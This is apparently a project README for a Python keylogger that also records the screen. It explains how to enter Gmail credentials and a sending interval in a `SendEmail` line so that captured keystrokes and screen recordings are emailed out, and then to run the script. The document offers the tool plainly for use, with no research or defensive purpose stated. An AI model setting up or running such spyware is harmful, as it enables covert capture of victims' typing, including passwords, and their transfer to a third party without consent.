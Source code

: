 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

## Instructions

- Change 182 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
182. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```

- Run script
